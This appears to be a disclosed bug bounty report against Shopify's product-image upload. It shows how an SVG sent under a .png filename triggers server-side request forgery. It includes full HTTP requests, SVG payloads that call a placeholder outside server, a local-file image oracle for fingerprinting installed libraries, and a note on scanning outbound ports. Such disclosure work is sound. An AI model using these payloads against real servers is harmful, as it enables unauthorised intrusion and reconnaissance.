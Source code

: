 # SVG Server Side Request Forgery (SSRF)

## Report Details
- **Report ID**: 223203
- **URL**: https://hackerone.com/reports/223203
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-23T14:43:15.224Z
- **Disclosed**: 2017-09-22T09:09:19.529Z

## Reporter
- **Username**: floyd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
I found an issue which seems to be regression of the following issue: https://hackerone.com/reports/97501 . It seems your input validaton is not sufficient and the file is getting processed before your implemented check for valid file types.

When adding a new product in the store, images for the product can be uploaded. When modifying the HTTP request that is sent, an attacker can do Server Side Request Forgery. The attacker simply has to specify a filename ending in .png, but use Content-Type image/svg+xml and the file content as well an SVG file.

The following requests leads to an DNS and HTTP interaction with <EXAMPLE_SERVER>, a placeholder for any server on the Internet:

```
POST /admin/products/9577763394/images.json HTTP/1.1
Host: 667667.myshopify.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
X-CSRF-Token: ca/m3aW88KsRSpDmudAHJrJBPrXdClc4T/D88ZltUf6E0YUeKneGI5CZtDJFo6wHg+EY+Q4h0uPU8rqnmm/Ydw==
X-Requested-With: XMLHttpRequest
Content-Length: 671
Content-Type: multipart/form-data; boundary=---------------------------1184233411771235065729422741
Cookie: <REDACTED>
Connection: close

-----------------------------1184233411771235065729422741
Content-Disposition: form-data; name="image[attachment]"; filename="NagKSvgXlink2.png"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>
-----------------------------1184233411771235065729422741
Content-Disposition: form-data; name="image[alt]"


-----------------------------1184233411771235065729422741--
```

Although the Shopify server responds with a HTTP 422 message, the interaction takes place with <EXAMPLE_SERVER>:

```
HTTP/1.1 422 Unprocessable Entity
Server: nginx
Date: Fri, 21 Apr 2017 11:17:02 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Referrer-Policy: origin-when-cross-origin
X-Frame-Options: DENY
X-ShopId: 19430493
X-ShardId: 1
X-Stats-UserId: 110274114
Cache-Control: no-cache, no-store
Set-Cookie: request_method=POST; path=/
Content-Security-Policy: default-src 'self' data: blob: 'unsafe-inline' 'unsafe-eval' https://* shopify-pos://*; child-src 'self' https://* shopify-pos://*; connect-src 'self' wss://* https://*; script-src https://cdn.shopify.com https://checkout.shopifycs.com https://js-agent.newrelic.com https://bam.nr-data.net https://dme0ih8comzn4.cloudfront.net https://api.stripe.com https://mpsnare.iesnare.com https://appcenter.intuit.com https://www.paypal.com https://stats.g.doubleclick.net https://www.google-analytics.com https://visitors.shopify.com https://v.shopify.com https://widget.intercom.io https://js.intercomcdn.com 'self' 'unsafe-inline' 'unsafe-eval'; upgrade-insecure-requests; report-uri /csp-report?source%5Baction%5D=create&source%5Bapp%5D=Shopify&source%5Bcontroller%5D=admin%2Fproduct_images&source%5Bsection%5D=admin&source%5Buuid%5D=834e8c11-d80b-4d00-a213-78619aebe696
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block; report=/xss-report?source%5Baction%5D=create&source%5Bapp%5D=Shopify&source%5Bcontroller%5D=admin%2Fproduct_images&source%5Bsection%5D=admin&source%5Buuid%5D=834e8c11-d80b-4d00-a213-78619aebe696
X-Dc: ash,chi2
X-Request-ID: 834e8c11-d80b-4d00-a213-78619aebe696
Content-Length: 109

{"errors":{"image":["The uploaded image is corrupt and cannot be processed. Please try a different image."]}}
```

The interaction with <EXAMPLE_SERVER> for HTTP is:

```
GET /image.jpeg HTTP/1.0
Host: <EXAMPLE_SERVER>
Accept-Encoding: gzip 
```

To further analyse the issue, let's only talk about the SVG file content in the request:

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
<image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" />
</svg>
```


A couple of facts:
- When changing the `http://<EXAMPLE_SERVER>/image.jpeg` part to other protocols, only `http://` and `ftp://` lead to interaction with a server on the Internet. No other protocol on the following list does: https://www.w3.org/wiki/UriSchemes . 
- I tried to connect with the HTTP and FTP protocol to all 65535 TCP ports on my server. Shopify seems to have outbound filters on only one TCP port, 113. On all other ports I got a TCP SYN packet with both protocols. Often companies detect this kind of port scan from their network hosts, I don't know if you did.
- The parser doesn't mind a static entity:

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [ <!ENTITY xml "eXtensible Markup Language"> ]>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
<image height="30" width="30" xlink:href="http://<EXAMPLE_SERVER>/image.jpg" />
<text x="0" y="20" font-size="20">&xml;</text>
</svg>
```
- The "a billion laughs" attack - see https://en.wikipedia.org/wiki/Billion_laughs - is probably possible as static entities are allowed, but DoS is not in the scope of your bug bounty program.
- However, the parser *doesn't* like SYSTEM Entities, we can *not* specify a different DTD file, add SYSTEM entities or any other XXE attack.

But we can use two image references and as long as the first URL returns a valid image, the second one is requested as well:

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
<image height="30" width="30" xlink:href="http://<EXAMPLE_SERVER>:81/example.png" />
<image height="30" width="30" xlink:href="http://<EXAMPLE_SERVER>:999/example.png" />
<text x="0" y="20" font-size="20">test</text>
</svg>
```

This results in a Is-Picture-Present-Oracle. By sending a local path first we can find out if a file that includes a picture is present on the file system. Because we get an interaction for the following SVG, we know the picture /lib/plymouth/ubuntu_logo.png is present on the system (this does *not* work with non-image files like /etc/passwd):

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
<image height="30" width="30" xlink:href="/lib/plymouth/ubuntu_logo.png" />
<image height="30" width="30" xlink:href="http://<EXAMPLE_SERVER>:999/example.png" />
<text x="0" y="20" font-size="20">test</text>
</svg>
```

The following pictures allow us to fingerprint the versions of libraries installed on your server (these three files are present on your servers):
- /usr/share/doc/libpng12-dev/examples/pngtest.png (you have libpng12-dev installed, etc.)
- /usr/share/doc/libfreetype6/tutorial/metrics.png 
- /usr/share/doc/libexpat1-dev/expat.html/expat.png



## Attachments
No attachments

